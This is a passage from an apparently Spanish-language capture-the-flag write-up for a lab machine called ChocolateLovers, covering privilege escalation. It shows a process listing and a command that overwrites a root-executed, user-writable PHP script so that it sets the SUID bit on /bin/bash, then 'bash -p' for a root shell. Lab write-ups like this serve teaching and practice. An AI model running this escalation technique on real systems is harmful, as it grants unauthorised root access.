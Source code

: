 ```bash
www-data      39  0.0  0.2 202100 17888 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data      40  0.0  0.2 202020 18272 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data      41  0.0  0.2 202020 18144 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data      42  0.0  0.1 201764 13408 ?        S    08:06   0:00  \_ /usr/sbin/apache2 -k start
www-data    1783  0.0  0.2 201900 17504 ?        S    09:19   0:00  \_ /usr/sbin/apache2 -k start
www-data    1786  0.0  0.1 201608 10196 ?        S    09:19   0:00  \_ /usr/sbin/apache2 -k start
root        2894  0.0  0.0   2516  1280 ?        S    10:03   0:00 sleep 5
chocolate@95e336f4d2b4:/$ ls -l /opt/script.php
-rw-r--r-- 1 chocolate chocolate 59 May  7 13:55 /opt/script.php
chocolate@95e336f4d2b4:/$ echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
chocolate@95e336f4d2b4:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Vemos un proceso que se hace en /opt/script.php y ademas pertenece a chocolate pero se ejecuta como el usuario root, así que vamos a modificar ese php  para que nos de una shell, y esperamos un rato a ver si obtenemos root:

```bash
chocolate@95e336f4d2b4:/$ echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
chocolate@95e336f4d2b4:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

vemos que el archivo ahora pertenece a root, hacemos un whoami y ya hemos obtenido root:

```bash
chocolate@95e336f4d2b4:/$bash -p
```

![rootChocolateLovers.png](assets/rootChocolateLovers.png)
